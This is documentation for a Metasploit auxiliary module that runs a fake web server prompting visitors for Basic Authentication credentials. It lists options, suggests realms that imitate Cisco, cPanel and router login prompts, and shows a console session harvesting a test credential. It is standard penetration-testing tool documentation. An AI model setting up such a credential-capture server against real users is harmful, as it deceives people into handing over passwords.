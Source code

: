This module creates a mock web server which, utilizing a HTTP 401 response, prompts the user to enter credentials for Basic Authentication.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/http_basic```
  3. Do: ```run```

## Options

  **REALM**

  The Realm for the Basic Authentication, which may be displayed in the input box to the user.
  Default is `Secure Site`.
  Some notable Realms to emulate:

  * `level_15 or view_access`
  * `cPanel`
  * `HuaweiHomeGateway`
  * `Broadband Router`

  **RedirectURL**

  After the user enters a set of credentials, their browser will be redirected to this address.  Default is ``.

  **SSL**

  Boolean if SSL should be used, making this HTTPS.  HTTPS is typically run on port 443.  If `SSLCert` is not set, a certificate
  will be automatically generated.  Default is `False`.

  **SSLCert**

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is ``.

  **URIPATH**

  What URI should be utilized to prompt for the Basic Authentication.  For instance, you may want this to run on `/cisco` if you use
  the `REALM` `level_15 or view_access`.  Default is ``, which will randomly generate a URIPATH.

## Scenarios

### Cisco Emulator with wget Client

Server:

```
msf5 > use auxiliary/server/capture/http_basic 
msf5 auxiliary(server/capture/http_basic) > set REALM "level_15 or view_access"
REALM => level_15 or view_access
msf5 auxiliary(server/capture/http_basic) > set uripath '/cisco'
uripath => /cisco
msf5 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/http_basic) > 
[*] Using URL: http://0.0.0.0:80/cisco
[*] Local IP: http://10.1.1.1:80/cisco
[*] Server started.
[*] Sending 401 to client 127.0.0.1
[+] 127.0.0.1 - Credential collected: "cisco:cisco" => /cisco
```
